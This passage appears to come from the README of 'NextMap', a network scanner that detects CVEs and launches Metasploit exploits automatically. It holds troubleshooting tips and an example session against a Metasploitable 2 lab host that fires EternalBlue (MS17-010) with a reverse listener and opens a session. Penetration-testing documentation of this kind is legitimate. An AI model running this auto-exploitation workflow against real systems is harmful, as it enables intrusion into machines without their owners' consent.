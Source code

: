 ### Warning: "No Metasploit exploit available"

**Cause:** CVE found but no exploit in database

**Solution:**
- Check if exploit exists in Metasploit: `msfconsole -x "search cve:2023-xxxxx"`
- Add mapping manually in `src/msf.rs`
- Report missing exploits via GitHub Issues

### Exploit Fails: "Target appears to be patched"

**Cause:** System has security updates applied

**Solution:**
- This is EXPECTED behavior on patched systems
- Try different exploits if available
- Manual exploitation may be required
- Verify target version matches exploit requirements

---

## 📝 Example Session

```bash
# Full workflow with Metasploitable 2
$ nextmap --target 192.168.1.200 -p top1000 -s --cve-scan --msf-exploit --msf-lhost 192.168.1.100

 ███╗   ██╗███████╗██╗  ██╗████████╗███╗   ███╗ █████╗ ██████╗ 
 ████╗  ██║██╔════╝╚██╗██╔╝╚══██╔══╝████╗ ████║██╔══██╗██╔══██╗
 ██╔██╗ ██║█████╗   ╚███╔╝    ██║   ██╔████╔██║███████║██████╔╝
 ██║╚██╗██║██╔══╝   ██╔██╗    ██║   ██║╚██╔╝██║██╔══██║██╔═══╝ 
 ██║ ╚████║███████╗██╔╝ ██╗   ██║   ██║ ╚═╝ ██║██║  ██║██║     
 ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝   ╚═╝   ╚═╝     ╚═╝╚═╝  ╚═╝╚═╝     

    🔍 Next Generation Network Scanner v0.3.2
    Advanced Stealth • CVE Detection • Auto-Exploitation

🛡️ Initializing CVE database...
📊 CVE Database: 5 total vulnerabilities
🚀 Starting NextMap scan...
🛡️ CVE scanning: ENABLED
📍 Targets: 1 hosts
🔍 TCP Ports: 1000 (top 1000 common ports - nmap compatible)

[████████████████████] 1000/1000 ports scanned

✅ Scan completed!

🎯 METASPLOIT AUTO-EXPLOITATION
══════════════════════════════════════════════════

✅ Metasploit Framework detected: 6.3.25
✅ Metasploit Framework initialized
📍 LHOST: 192.168.1.100 | LPORT: 4444

🎯 Processing host: 192.168.1.200
  🔍 Found CVE-2017-0144 (Critical) on port 445
    🎯 Launching Metasploit exploit: MS17-010 EternalBlue SMB RCE
       Module: exploit/windows/smb/ms17_010_eternalblue
       Target: 192.168.1.200:445
    ✅ Exploit successful! Session ID: 1

📊 EXPLOITATION SUMMARY
══════════════════════════════════════════════════
Total exploits attempted: 1
```